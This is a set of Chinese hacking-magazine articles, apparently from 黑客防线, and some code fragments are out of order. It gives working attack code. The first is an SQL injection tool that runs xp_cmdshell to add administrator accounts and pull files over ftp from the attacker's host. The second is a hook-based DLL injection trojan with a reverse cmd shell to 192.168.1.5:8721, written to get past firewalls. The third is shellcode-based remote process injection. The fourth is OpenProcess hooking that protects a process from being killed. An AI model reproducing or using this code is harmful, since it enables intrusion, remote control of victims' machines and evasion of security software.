如果后台 SQL Server 连接用户为 sa，且扩展存储过程 xp_cmdshell 没有被删除的话，我们就可以通过它来使对方系统执行几乎所有的系统命令。添加管理员权限用户的指令是：`exec master..xp_cmdshell "net user name pass /add"` 和 `exec master..xp_cmdshell "net localgroup administrators name /add"`。实现代码为：

```cpp
void CInjectionDlg::OnNewUser()
{
    CString sql_url;
    sql_url = m_urladdr + ";exec master..xp_cmdshell 'net user ' + uname + ' ' + pwd + ' /add'";
    HTMLInfo *p;
    p = Requestpage(sql_url);
    int nSvrState = p->szServer;
    if(nSvrState>=400 && nSvrState<=505) {
        AfxMessageBox("cmdshell执行错误！");
        exit(0);
    } else {
        sql_url = m_urladdr + ";exec master..xp_cmdshell 'net localgroup administrators ' + uname + ' /add'";
        p = Requestpage(sql_url);
        int nSvrState = p->szServer;
        if(nSvrState>=400 && nSvrState<=505)
            AfxMessageBox("cmdshell执行错误！");
    }
}
```

```cpp
exit(0);
}
AfxMessageBox("成功添加了一个系统用户！");
}
}
```

```cpp
else
{
    AfxMessageBox("成功上传文件！");
}
}
```

##### 上传文件

文件的格式有多种，如果上传的是 asp 或 asp.net 文件，则可以让目标机器连接攻击端开设的 ftp 服务端，进而传送文件；也可以通过 xp_cmdshell 将文件语句逐句重定向到目标机的文件中。而对于一般的文件传送，大多通过 ftp 来传送。

##### 关于测试

关于测试，我在附带的代码中有一个示例站点的源码，以前是用的 Access，后来通过 SQL Server 数据库转换功能将连接的 Access 数据库转换为了 SQL Server 数据库。大家测试的时候注意将 conn.asp 中的 Data Source 修改为你自己的 SQL Server 实例名就可以了。

```cpp
void CInjectionDlg::OnhttpLogOn()
{
    sql_url = m_urladdr + ";exec%20master..xp_cmdshell%20\"ftp%20-\"%20" + m_ip + "%20get%20" + PathName + "%20\"---";
    HTMLInfo *p;
    p = Requestpage(sql_url);
    int nSvrState = p->szServer;
    if(nSvrState>=400 && nSvrState<=505)
    {
        AfxMessageBox("cmdshell执行错误！");
        exit(0);
    }
}
```

#### 小结

本文介绍了我将针对 SQL Server + ASP（或 ASP.NET）编写的站点注入点的扫描、分析及入侵的过程整合到了工具的编写中。尽管可能还存在一些不足之处，但攻防技术本身就是要求研究者不断更新和提高的，因此希望大家能和我相互交流，共同推动大家的进步。

> “本文涉及的代码（程序），请见随书光盘”

### 无进程式线程插入

#### 穿墙技术实现


文/图 夜枫

上次给大家带来了一个驱动级的进程保护的方法，我这里先友情提示一下：很多进程保护驱动不是修改 NtOpenProcess，而是修改 NtTerminateProcess 实现的，其中修改后者的话，需要通过句柄得到 EPROCESS 对象，然后再判断 PID 来实现。

OK，废话不多说，下面进入本文的主题——线程插入穿墙技术。这里提一下《黑客防线》杂志 2007 年第 12 期 icexiaoye 的一篇 Delphi 编写下载者的文章，其中也用到了一个穿墙技术，不过他的技术原理和我的不一样，大家可以相互借鉴学习一下。

#### 引言

我先简单介绍一下穿墙技术和其作用。穿墙技术用得最多的就是在木马里，最早的木马是正向连接的（主动连接），随着时代发展，出现了反向连接的木马（反弹木马），比如比较常见的灰鸽子、PcShare 等，中马者主动连接控制者，这样就可以随时控制对方计算机，并可以组建成网络（如僵尸网络）。但随着反病毒技术的升级，各种防火墙都会拦截到这种反向连出（实际上一般防火墙连入连出都会提示）……

## 线程注入类

木马就会被拦截下来，不但暴露了目标，而且也无法正常连接，于是就出现了各种穿墙技术。因此，所谓的穿墙就是指穿透防火墙。

穿墙的实现方法很多，比如《黑客防线》杂志上的那篇文章介绍的方法的原理是在对方进程里开辟一块内存，然后将自己的代码写进去，再远程运行代码。这种方法比较省事，但容易出问题，而且不一定过得了主动防御（一般调用 CreateRemoteThread 好像都会被主动防御拦截）。

本文介绍的方法是一个比较经典的方法，也就是所谓的三级跳实现穿墙方法。这种方法虽然比较麻烦，但比较好用。其主要实现步骤为：创建一个钩子程序，将 DLL 插入到各个进程里；找到宿主进程，然后调用真正的工作 DLL；卸载掉钩子，结束程序。

看到这里也许大家会有个疑问，钩子建立好了不是可以直接插入到进程里吗，何必再另外加载一个 DLL 来工作呢？其实这个想法也没错，不过却忽略了一个问题，如果主 EXE 程序结束了，那么钩子自然就不会存在了。也就是说，如果想直接利用 Hook 的那个 DLL 文件来工作，主程序进程必须一直存在，这样就会暴露木马了。

```cpp
CMenu* pSysMenu = GetSystemMenu(FALSE);
if (pSysMenu != NULL)
{
    CString strAboutMenu;
    strAboutMenu.LoadString(IDS_ABOUTBOX);
    if (!strAboutMenu.IsEmpty())
    {
        pSysMenu->AppendMenu(MF_SEPARATOR);
        pSysMenu->AppendMenu(MF_STRING, IDM_ABOUTBOX, strAboutMenu);
    }
}

// Set the icon for this dialog...
SetIcon(m_hIcon, TRUE);
SetIcon(m_hIcon, FALSE);

h_Dll = LoadLibrary("../../Loader/Debug/Loader.dll");
if (h_Dll == 0)
{
    MessageBox("Load Library Error");
    return false;
}

return TRUE;
```

#### 代码分析

首先建立一个 MFC 工程，选择 Dialog（其实无所谓，选哪个都一样）。

```cpp
class CWinExeDlg : public CDialog
{
public:
    CWinExeDlg(CWnd* pParent = NULL);
    HMODULE h_Dll;  // 保存 DLL 句柄
    enum { IDD = IDD_WINEXE_DIALOG };
    ...
};
```

接下来，我在 OnInitDialog() 里加载了这个 DLL 文件（DLL 后面写），实现代码如下。

```cpp
BOOL CWinExeDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    // Add "About..." menu item...
    ASSERT((IDM_ABOUTBOX & 0xFFF0) == IDM_ABOUTBOX);
    ASSERT(IDM_ABOUTBOX < 0xF000);
    ...
}
```

之后放置一个按钮用于设置钩子函数，名 OnBtnLoader()。

```cpp
void CWinExeDlg::OnBtnLoader()
{
    // ShellExecute(...)
    typedef void (*LOAD)(HWND);
    LOAD Proc = (LOAD)GetProcAddress(h_Dll, "SetHook");
    if (Proc == 0)
    {
        MessageBox("Get Proc failed");
        return;
    }
    Proc(m_hWnd);
}
```

当程序退出时，我们卸载掉这个钩子，实现代码如下。

```cpp
void CWinExeDlg::OnClose()
{
    typedef void (*UNLOAD)(void);
    UNLOAD Proc = (UNLOAD)GetProcAddress(h_Dll, "UnHook");
    if (Proc == 0)
    {
        MessageBox("Get Proc failed");
        return;
    }
    Proc();
    FreeLibrary(h_Dll);
    CDialog::OnClose();
}
```

这样我们就完成了主程序的编写，下面才是最重要的一个部分，也就是我们的全局钩子。我新建的工程名为 Loader，类型为 Win32 Dynamic-Link Library，也就是 SDK 的 DLL。我们在里面加个 DllMain 函数（DllMain 相当于 C/C++ 里的 Main 函数，一样是第一个执行的函数），实现代码如下。

```cpp
// Loader.h
#include <windows.h>
#include <stdio.h>
// DLL 入口函数
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved);
// GetMessage 回调函数
LRESULT CALLBACK GetMsgProc(int code, WPARAM wParam, LPARAM lParam);
void SetHook(HWND hWnd);
void UnHook();
HHOOK hHook;
HINSTANCE hinst;
#pragma data_seg(".share")
// 这里建立一个共享段区，用于保存主程序句柄，后面我们就会频繁调用它了
HWND m_hWnd = NULL;
// 共享的数据段（其中的变量必须初始化）
#pragma data_seg()
```

下面是代码的实现部分。

```cpp
#include "Loader.h"
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    hinst = hinstDLL;
    // 保存 HINSTANCE，建立钩子时候要用到
    switch(fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        // MessageBox(NULL, "DLL_PROCESS_ATTACH", "", MB_OK);
        // SetHook();
        // 这里开始是调试时候写的，后来注释掉了
        break;
    case DLL_THREAD_ATTACH:
        // MessageBox(NULL, "DLL_THREAD_ATTACH", "", MB_OK);
        break;
    case DLL_THREAD_DETACH:
        // MessageBox(NULL, "DLL_THREAD_DETACH", "", MB_OK);
        break;
    case DLL_PROCESS_DETACH:
        // MessageBox(NULL, "DLL_PROCESS_DETACH", "", MB_OK);
        // UnHook();
        break;
    default:
        // MessageBox(NULL, "Default", "", MB_OK);
        break;
    }
    return TRUE;
}
```

```cpp
void SetHook(HWND hWnd)
{
    hHook = NULL;
    m_hWnd = hWnd;
    hHook = SetWindowsHookEx(WH_GETMESSAGE, GetMsgProc, hinst, 0);
    // 安装一个消息钩子
    if (hHook == 0)
    {
        MessageBox(NULL, "Hook Unsuccess!", "Warning", MB_OK|MB_ICONWARNING);
    }
}

void UnHook()
{
    BOOL ret = UnhookWindowsHookEx(hHook);
    if (TRUE != ret)
    {
        MessageBox(NULL, "UnHook Unsuccess!", "Warning", MB_OK|MB_ICONWARNING);
    }
}

LRESULT CALLBACK GetMsgProc(int code, WPARAM wParam, LPARAM lParam)
{
    // 回调函数
    CallNextHookEx(hHook, code, wParam, lParam);
    // 向下传递消息
    static bool old = false;
    // 这个是防止我们重复调用
    char buffer[1000];
    memset(buffer, 0, 1000);
    GetModuleFileName(0, buffer, 1000);
    // 获得当前进程的绝对路径
    char *InsertName = _strupr(_strdup("notepad.exe"));
    // 要插入的进程，我这里以 notepad.exe 为例
    char *CurrentName = _strupr(_strdup(buffer));
    if (strstr(CurrentName, InsertName) != NULL && old)
    {
        // ...
    }
}
```

```cpp
if (old == false)
{
    // 如果绝对路径里包含要查找的进程名（这里实际就是判断是不是我们指定的进程）
    old = true;
    // 防止二次加载
    HMODULE hDll = NULL;
    hDll = LoadLibrary("E:\\...\\Insert\\Debug\\Insert.dll");

    // 这里一定要绝对路径，否则是无法顺利加载的
    if (hDll == NULL)
    {
        MessageBox(NULL, "Insert failed!!", "", MB_OK | MB_ICONERROR);
    }

    typedef void (*RUN)(HWND);
    RUN Run_ = (RUN)GetProcAddress(hDll, "Run");
    // 获得实际工作DLL的启动函数
    Run_(m_hWnd);

    return 1;
    return TRUE;
}
```

以上代码编写完毕，我们还需要设置函数的导出，实现代码如下。

```def
EXPORTS
    SetHook
    UnHook
SEGMENTS
    share READ WRITE SHARED
```

其中的 SEGMENTS 表示自定义段的属性。至此，我们的全局钩子就编写完毕，下面我们再看看具体实现 DLL 的内容，其代码如下。

```cpp
#include <Winsock2.h>
#include <Windows.h>
#include <stdio.h>
#pragma comment(lib, "ws2_32.lib")

// DLL入口函数
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved);

// 工作线程
DWORD WINAPI ThreadProc(LPVOID lpParameter);

void Run(HWND hWnd);   // 导出函数，用于运行DLL
HANDLE hThread;        // 线程句柄
BOOL ret;
```

下面的代码是其具体实现。我这里用了一个重定向 CmdShell 的代码做试验。

```cpp
#include "Insert.h"

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        ret = FALSE;
        ret = TerminateThread(hThread, 0);
        // 当DLL被卸载时结束掉线程
        if (ret == 0)
            MessageBox(NULL, "Terminate Work Thread Failed!", "Failed", MB_OK | MB_ICONERROR);
        break;
    default:
        break;
    }
    return TRUE;
}

void Run(HWND hWnd)
{
    hThread = NULL;
    ::SendMessage(hWnd, WM_CLOSE, 0, 0);
    // Loader里的句柄会传递进来，然后给它发一个WM_CLOSE消息来结束主程序

    hThread = CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL);
    // 新建子线程执行主要工作
    if (hThread == 0)
        MessageBox(NULL, "Create Work Thread Failed!", "Failed", MB_OK | MB_ICONERROR);
}

DWORD WINAPI ThreadProc(LPVOID lpParameter)
{
    WSADATA wsa;
    WSAStartup(MAKEWORD(2, 0), &wsa);

    SOCKET sock;
    PROCESS_INFORMATION pi;
    STARTUPINFO si;
    // ...
}
```

```c
sockaddr_in addr;
memset(&addr, 0, sizeof(addr));
memset(&pi, 0, sizeof(pi));
memset(&si, 0, sizeof(si));

addr.sin_family = AF_INET;
addr.sin_port = htons(8721);
addr.sin_addr.S_un.S_addr = inet_addr("192.168.1.5");
sock = WSASocket(AF_INET, SOCK_STREAM, NULL, NULL, NULL, NULL);
while (1)
{
    sock = WSASocket(AF_INET, SOCK_STREAM, NULL, NULL, NULL, NULL);
    while (0 != connect(sock, (sockaddr*)&addr, sizeof(addr))) {
        shutdown(sock, 0);
        Sleep(5000);
    }
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    si.hStdInput = si.hStdError = si.hStdOutput = (void*)sock;
    si.wShowWindow = SW_HIDE;
    memset(&pi, 0, sizeof(pi));
    BOOL ret = CreateProcess(NULL, "cmd.exe", NULL, NULL, true, 0, NULL, NULL, &si, &pi);
    WaitForSingleObject(pi.hProcess, INFINITE);
    closesocket(sock);
}
WSACleanup();
return 1;
```

以上代码的导出实现如下，由于只有一个导出函数，所以比较简单。

```text
EXPORTS
    Run
```

#### 测试

下面我们来检测一下效果。先用 NC 监听我们的返回端口，如图1所示。当我们按下按钮加载钩子后，我们运行了一个记事本，这时主程序自动退出。同时，记事本提示要访问网络，如图2所示。


图1

当然，这里仅是为了做个测试，实际应用的时候可以插入 IE 进程来实现穿墙。如果再用个 Rootkit 把 IE 进程隐藏起来，那就能隐蔽了。点击天网防火墙提示信息的“允许”让其通过，如图3所示，我们就得到 CmdShell 了，测试成功。


图2


图3

#### 后记

以上就是传说中的三级跳线程注入技术，我们用 Icesword 可以清楚看到，如图4所示。虽然我们的 EXE 程序没有运行，但我们的 DLL 依然是在对方进程里的，因为我们的钩子 DLL 加载这个 DLL 的时候是属于我们的宿主进程的，所以我们的 DLL 实际上是宿主进程加载的，自然卸载钩子的时候，我们的 DLL 就不会被卸载掉了。


图4

我用卡巴斯基7测试的时候，把主动防御打开，当设置钩子时会有提示，其他地方则都没有提示，不过当重定向 CmdShell 的时候会再次提示，但这个就是重定向代码的问题了，和我们的程序没有关系。

> 【本文涉及的代码（程序），请见随书光盘】

## 搞定远程进程注入DLL

### ——对 ShellCode 之行


文／图 冷家锋

硬件平台：X86  
操作系统：Windows XP Professional SP2  
工具：VC6.0 Enterprise Edition  
目标：以简洁的方式向远程进程注入 DLL，并使远程进程执行该 DLL 中的函数。

用到的项目文件包括 mfcdll（测试 DLL，导出函数 `void Show(void)`）、testdll（另一个测试 DLL）、getAddr（获取 kernel32.dll 中 `LoadLibraryA()` 和 `GetProcAddress()` 在进程中的加载地址）、ps（枚举系统活动进程）、localshellcode（测试 C“翻译”成的汇编码）、remoteshell（实现最终目标）。

闲来无聊，打算自己操刀写一款远程控制软件，要求不高，隐蔽性好（无进程、无 DLL、无端口），能执行指定命令即可。原以为有经验，结果“万事开头难”，于是转入正题。

#### 山重水复，举步维艰

引用前辈 Robert Kuster 的思路：在 NT 平台下隐藏进程有 3 种可能方案。

- 1）把代码放到一个 DLL 中，然后用 Windows 钩子把它映射到远程进程；
- 2）把代码放到一个 DLL 中，然后用 `CreateRemoteThread` 和 `LoadLibrary` 把它映射到远程进程；
- 3）不使用 DLL，直接复制代码到远程进程（`WriteProcessMemory`），并用 `CreateRemoteThread` 执行。

对于第 1 种 Windows Hook 方法，作者暂未深入，先聚焦第 2 和第 3 种方法。

先尝试第 2 种实现：在 VC6 新建名为 testdll 的 Win32 Dynamic-Link Library 工程，在 DLL 入口中的 `DLL_PROCESS_ATTACH` 和 `DLL_THREAD_ATTACH` 分支分别写入 `MessageBox()` 测试代码。

编译后将生成的 testdll.dll 复制到 D 盘根目录；再新建对话框工程，添加按钮，在按钮事件中加入测试加载代码。

```cpp
// 测试 DLL 的加载代码
HINSTANCE hmod;
hmod = LoadLibrary("D:\\testdll.dll");
if (hmod == NULL) {
    MessageBox("连接 testdll.dll 失败!", "标题", MB_OK);
    return;
}
FreeLibrary(hmod);
// 测试代码结束
```

然而 testdll.dll 并未按预期发挥作用，作者怀疑可能是系统版本问题或实现方法有误。

随后尝试第 3 种实现，代码可运行，但弱点较快暴露：只适合执行较短小代码，代码稍长问题较多。作者继续寻求更优方案。

再次研读 Robert Kuster 文章后发现，第 2 和第 3 种方法本质都依赖 `CreateRemoteThread()` 让远程进程执行一段代码；如果将两种实现结合，或许能得到更稳定方案。

样呢？哎，你明白我的意思了？反应够快！两种实现结合就是通过 CreateRemoteThread() 执行一个代码序列，该代码序列的作用是让远程进程加载 DLL，并执行 DLL 中的函数。以本文开头提到的 mfcdll.dll 为例，典型代码序列如下：

```cpp
// 我们希望远程进程执行的代码序列2
{
    // 只是个例子，未定义带参数输出参数
    typedef void (WINAPI* TESTDLL)();
    HINSTANCE hmod;
    hmod = ::LoadLibrary("D:\\mfcdll.dll");
    if (hmod == NULL)
    {
        MessageBox("连接MFCDLL.DLL失败!", "失败", MB_OK);
        return;
    }
    TESTDLL lpproc;
    lpproc = (TESTDLL)GetProcAddress(hmod, "Show");
    if (lpproc != (TESTDLL)NULL)
    {
        (*lpproc)();
    }
    FreeLibrary(hmod);
}
// 代码结束
```

但问题又来了，CreateRemoteThread() 每一次函数调用都涉及到地址的重定位。代码2中的这几个函数调用的地址重定位有没有办法一次搞定呢？也许有人说了，很简单啊，把以上代码段写在一个函数中不就可以了？“有道理，可是怎样把这个代码段用 WriteProcessMemory() 一次写到远程进程呢？因为远程进程只认机器码而不认 C 代码啊。”用 ShellCode 啊笨！你的题目不就是用 ShellCode 搞定远程进程注入吗？

#### 柳暗花明，ShellCode 惊现江湖

OK，问题想明白了，下面我们先来看一下利用 ShellCode 让远程进程加载 DLL 并执行 DLL 中代码的大致流程，对要做的事情心中有数：

- 1）获得可用的 ShellCode；
- 2）测试 ShellCode，不达目的则转1；
- 3）将 ShellCode 写到目标进程空间并使其执行；
- 4）调试、除错，有错转3；
- 5）结束，收工。

##### 1）获得可用 ShellCode

这里要说明的是，本文利用的 ShellCode 并非真正意义上的 ShellCode，只是借鉴了 ShellCode 的思想：先将 C/C++/Asm 或其他语言编成的代码生成机器码，再通过 RemoteThread 让远程进程直接执行这段机器码。

将下面的代码段3翻译成对应的汇编码，对汇编不太熟悉的新手朋友们不用发慌，只要记住 Win32 平台下 EAX 寄存器是用来存放函数返回值的就可以了。代码段3对应的汇编代码如下：

```asm
__asm {
  push ebp
  mov ebp,esp
  push edx
  push ecx
  sub esp,20h
  ; 目标DLL路径 "D:\\mfcdll.dll"
  mov byte ptr [ebp-0eh],'D'
  ...
  ; LoadLibrary("D:\\mfcdll.dll")
  push edx
  mov ecx,7C801D77H
  call ecx
  ; DLL函数名字字符串 "Show"
  mov byte ptr [ebp-05h],'S'
  mov byte ptr [ebp-04h],'h'
  mov byte ptr [ebp-03h],'o'
  mov byte ptr [ebp-02h],'w'
  mov byte ptr [ebp-01h],0
  ; GetProcAddress(hmod,"Show")
  push edx
  push eax
  mov ecx,7C80AC28H
  call ecx
}
```

```asm
; GetProcAddress(hmod, "Show") 返回值
call eax
pop ecx    ; 恢复用到的寄存器
pop edx
mov esp, ebp ; 恢复堆栈
pop ebp
ret
```

新建一个 VC6 Console 工程（光盘中的工程 localshellcode），将上面这段代码作为内嵌汇编加入，编译、测试成功！可是按 F10 单步运行到“__asm {”一句，按 Alt+8 打开反汇编窗口，再右击，选中“Code Bytes”菜单，将反汇编代码和十六进制代码复制出来整理一看，倒！两个地方竟然会有 x00。

##### 2）测试、改进 ShellCode

熟悉 ShellCode 编写的朋友都知道，ShellCode 中是不能含有 x00 的，否则，在将 ShellCode 作为字符串处理的时候麻烦多多啊。怎么办呢？难道对 ShellCode 进行 Encode（编码）再 Decode（解码）？麻烦！别急，想一想，x00 产生的原因能否用简单的方法避免。从头仔细看内联汇编代码，发现两处 x00 是由于“说明(1)”和“说明(3)”处 `mov byte ptr [ebp-01h],0` 这句代码造成的，找到原因，同样功能而不含有 x00 的代码就很容易实现了：

```asm
xor dh, dh
mov byte ptr [ebp-01h], dh
```

赶紧回到 VC6，如上进行调试，得到十六进制码，果然，x00 消失了，世界总算清净了！到这里，我们就可得到 shellcode 如下：

```c
char *ShellCode =
"\x55\x8B\xEC\x82\x...";
```

### 3）将 ShellCode 写到目标进程空间并使其执行

有了可用的 ShellCode，将其写进远程进程就好办得多了，大概流程如下：提升本进程权限；获得一个远程进程的句柄（OpenProcess()）；向远程进程申请可用空间，以写入 ShellCode（VirtualAllocEx()）；写入 ShellCode（WriteProcessMemory()）；创建远程线程，执行 ShellCode（CreateRemoteThread()）。根据上面这个流程写出代码，为了节省版面，代码已收录在光盘中。

本文中只给出主要用到的函数，而且为了将精力集中到远程进程注入本身，我用的是系统 Administrator 权限，也省略了提升进程权限的代码，有兴趣的读者请自行补充。几经调试后，我终于得到了差强人意的代码。

#### 总结及其他

有读者问了，直接创建两个远程线程，一个让远程进程加载 DLL，一个让远程进程执行 DLL 中函数不就行了吗？为什么要这么麻烦？理论依据：Win32 平台下，kernel32.dll 和 user32.dll（其他类似的系统 DLL 我就不知道了，欢迎补充：-））在每个进程中加载基址是一致的，但是，其他 DLL 文件在每个进程中加载基址一般来说是不一致的。因为这一点，才导致了远程进程执行目标代码的重重困难。

又有读者问了，代码段3中“说明(2)”和“说明(4)”是什么呢？不好意思，上文忘了说明，“说明(2)”7C801D77H 和“说明(4)”7C80AC28H 分别是我的系统中 kernel32.dll 中的函数 LoadLibrary() 和 GetProcAddress() 在每个进程中的加载地址。只要用光盘中的 getaddr.exe 程序就可以得到系统中这两个函数的加载地址和 ShellCode 中应修改的值。有一点要注意：X86 平台，一个数的高位放在内存高地址，低位放在低地址。

还有读者问，你是怎么想到用 ShellCode 的形式来解决远程进程注入 DLL 这个问题的？相信很多读者都有这样的体会：有时看到某篇文章会说，“咦？！这篇文章说的东西很简单嘛，怎么会发到黑防上来？”（疑问一）；有时看到另一篇又会说，“这篇写得满深啊，我竟然看了一遍不懂，难道作者是天才吗？他（她）是怎么想到的？”（疑问二）。

其实，对于疑问一，是因为我们已经掌握了该文相关的基础知识，才会觉得某篇文章浅显；而疑问二则是大多由于我们对作者提到的知识陌生造成的，并非因为作者是天才！我们看黑防，是要透过黑防作者提供给我们的好文来开拓思路、提升内力，我们要努力看出文章背后的东西，才不会辜负黑防提供给我们的这个广阔的交流平台。闲扯了这么多，不知道黑防老编/小编会不会嫌烦给删了，呵呵。还是来看看上面这个问题，首先看看 MSDN 2003 上 VC++ 篇对 CreateRemoteThread() 函数的说明：> The CreateRemoteThread function creates a thread that runs in the virtual address space of another process.  
> （函数 CreateRemoteThread() 创建一个在另一个进程的虚拟空间运行的线程）。

其原型如下：

```c
HANDLE CreateRemoteThread(
    HANDLE hProcess,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

为了方便新手朋友们理解，这里大概说一下各参数的含义。hProcess 是远程进程句柄。lpThreadAttributes 是指向安全描述符结构的指针。dwStackSize 即我们向远程进程申请的空间大小。lpStartAddress 为远程线程函数的起始地址（远程进程地址空间）。lpParameter 为远程线程函数的参数。dwCreationFlags 为远程线程状态标志。lpThreadId 为远程线程 ID。

这么多参数？根据网上前辈的提示，除了“远程进程句柄 hProcess”和“远程线程函数的起始地址 lpStartAddress”不能为空、必须要指定外，其他参数可以设为 0 或 NULL。hProcess 不能为空很好理解，如果其为空，那么让哪个进程启动远程线程呢？lpStartAddress 不能为空，如果不理解可以参看上面的第一个问题，而这个参数也给了我们一个启发。既然远程线程的本质只是执行从 lpStartAddress 开始的代码，那么很自然地就想到写入一段 ShellCode 到远程进程的地址空间 lpStartAddress 处，并让 CreateRemoteThread() 来执行。又是线程又是进程的，新手朋友可能要迷糊了。

其实，简单理解就是先用 VirtualAllocEx() 向远程进程申请一个空间，并返回申请空间的起始地址 lpStartAddress，然后将 ShellCode 通过 WriteProcessMemory() 写到一个进程空间的 lpStartAddress 处，最后通过 CreateRemoteThread() 让 ShellCode 执行。

可能还有人会问，为什么不创建一个远程线程加载 DLL，另一个远程线程执行 DLL 中的函数呢？这个问题还是留给《黑防》的读者思考吧。这里给个提示，上文提到了 CreateRemoteProcess() 涉及地址重定位的问题。

另外，Robert Kuster 给出的第 2 种实现中，要执行的代码必须要放在 DLL 入口点的 DLL_PROCESS_ATTACH 分支（进程首次加载 DLL 时从此执行）或 DLL_THREAD_ATTACH 分支（线程被创建时执行），并且要小心地注意 DLL 的加载和卸载问题。本文提出的 ShellCode 注入法，则可免除上述烦恼，可以执行 DLL 中的任意导出函数。

【本文涉及的代码（程序），请见随书光盘】

## 系统核心类

### 利用 Hook API 实现进程守护

文/图 Zonro [CUST&AD]

关于进程的隐藏有很多方式可以实现，《黑客防线》杂志也讲过不少例子。我就是不想把进程隐藏，呵呵，那么有什么方法可以实现进程守护呢？前一阵子我研究了一个 AV 终结者的变种，进程守护的方式是通过两个进程相互关联实现的。这种方式虽然手工无法干掉，可是写个专杀采用多线程就能干掉，不完美啊。两个进程总让人感到别扭。经过研究，我通过 Hook API 技术实现了进程守护。

### 原理简单分析

Hook API 是个好东西，虽然微软不提倡 Hook API，但应用却非常广泛，关于这方面的资料也很多。像金山词霸的屏幕取词翻译功能就是用这种技术实现的，它主要挂钩了 TextOut 函数，这样就能拦截到该函数的参数，也就是屏幕上的文字并进行翻译工作了。关于进程守护，如果一个进程试图结束另一个进程，不管用什么方法它都要先获取该进程的 HANDLE，只要我们 HOOK 住了 OpenProcess 这个 API，指向我们自定义的 MY_OpenProcess 函数，基本就能实现进程守护了。

有两种方法能够实现 Hook API，一种是“改引入表式”，另一种是“陷阱式”。我就使用第一种方法来实现，这种方法易于实现，但要求你熟悉 PE 文件结构，主要是定位到 Kernel32.dll 模块的 OpenProcess 函数地址，并用 WriteProcessMemory 函数改写函数地址。

DLL 模块主要代码如下。

```pascal
var
  func: PImportCode;
begin
  Result := Code;
  if Code = nil then Exit;
  try
    func := code;
    if (func.JumpInstruction = $25FF) then
    begin
      Result := func.AddressOfPointerToFunction^;
    end;
  except
    Result := nil;
  end;
end;

// 改引入表模块
Function WriteFunction(OldFunc, NewFunc: Pointer): Integer;
var
  BeenDone: TList;

Function WritAddrInModule(hModule: THandle; OldFunc, NewFunc: Pointer): Integer;
var
  Dos: PImageDosHeader;
  NT: PImageNTHeaders;
  ImportDesc: PImage_Import_Entry;
  RVA: DWORD;
  Func: ^Pointer;
  DLL: String;
  f: Pointer;
  written: DWORD;
begin
  Result := 0;
  Dos := Pointer(hModule);
  if BeenDone.IndexOf(Dos) >= 0 then Exit;
  BeenDone.Add(Dos);
  OldFunc := TrueFunctionAddress(OldFunc);
  if IsBadReadPtr(Dos, SizeOf(TImageDosHeader)) then Exit;
  if Dos.e_magic <> IMAGE_DOS_SIGNATURE then Exit;
```

```pascal
unit HookAPI;

interface
......

// 获取函数真实地址
function TrueFunctionAddress(Code: Pointer): Pointer;
```

```pascal
// IMAGE_DOS_SIGNATURE='MZ'
{定位 NT_Header}
NT := Pointer(Integer(Dos) + Dos._lfanew);
{定位导入函数表}
RVA := NT^.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
if RVA = 0 then Exit; // 如果引入函数表为空，则退出
ImportDesc := Pointer(Integer(Dos) + RVA);

while (ImportDesc^.Name <> 0) do
begin
  DLL := PChar(Integer(Dos) + ImportDesc^.Name);
  WriteAddrInModule(GetModuleHandle(PChar(DLL)), OldFunc, NewFunc);

  // 定位至被引入的下级 DLL 模块的函数表
  Func := Pointer(Integer(Dos) + ImportDesc.LookupTable);
  while Func <> nil do
  begin
    f := TrueFunctionAddress(Func^);
    if f = OldFunc then
    begin
      WriteProcessMemory(GetCurrentProcess, Func, @NewFunc, 4, written);
      // 把新函数地址覆盖它
      if Written > 0 then Inc(Result);
    end;
    Inc(Func);
  end;
  Inc(ImportDesc); // 下一个被引入的下级 DLL 模块
end;

begin
  BeenDone := TList.Create;
  try
    Result := WriteAddrInModule(GetModuleHandle(nil), OldFunc, NewFunc);
  finally
    BeenDone.Free;
  end;
end;

// 自定义 My_OpenProcess 替换 OpenProcess
Function My_OpenProcess(dwDesiredAccess: DWORD;
  bInheritHandle: Boolean; dwProcessId: DWORD): THandle; stdcall;
var
  hWnd: THandle;
  ProcessId: DWORD;
begin
  hWnd := FindWindow(nil, 'HOOK API');
  GetWindowThreadProcessId(hWnd, ProcessId);
  if (dwProcessId <> ProcessId) then
    Result := OpenProcess(dwDesiredAccess, bInheritHandle, dwProcessId);
end;
```

```pascal
Function HookFunction(nCode: Integer; WParam: WPARAM;
  LParam: LPARAM): LRESULT; stdcall; export;
var
  OldFunction: Pointer;
begin
  OldFunction := GetProcAddress(GetModuleHandle('Kernel32.DLL'), 'OpenProcess'); // 函数原地址
  WriteFunction(OldFunction, @My_OpenProcess);
  Result := CallNextHookEx(h_hook, nCode, WParam, LParam);
end;
```

需要注意的是：自定义的替换函数参数个数和类型以及返回值的类型必须与原 API 函数一致，否则会调用出错，可能会有意外的收获哦。呵呵！我在测试时经常出现调用出错，直接导致死机甚至蓝屏。另外，如果检查到进程不是我们的进程 ManiEXE.exe，需要调用函数打开，否则所有进程就都结束不了了。

#### 主程序代码

这里我把 DLL 安装到了任务管理器进程中，并没有将 DLL 安装到系统全局。大家也可以自己选择插入的进程。添加一个 Timer 控件监视任务管理器，即安装钩子，程序执行后的效果如图 1 所示。尝试结束进程时无法结束，提示句柄无效，说明没有成功调用 OpenProcess。主程序关键代码如下。

图1

```pascal
procedure TForm1.Timer1Timer(Sender: TObject);
var
  hHookDll, htaskmgr, ThreadID: THandle;
  pHookFunction: Pointer;
begin
  htaskmgr := FindWindow(nil, 'Windows 任务管理器');
  if htaskmgr <> 0 then
  begin
    // 获得窗口线程ID
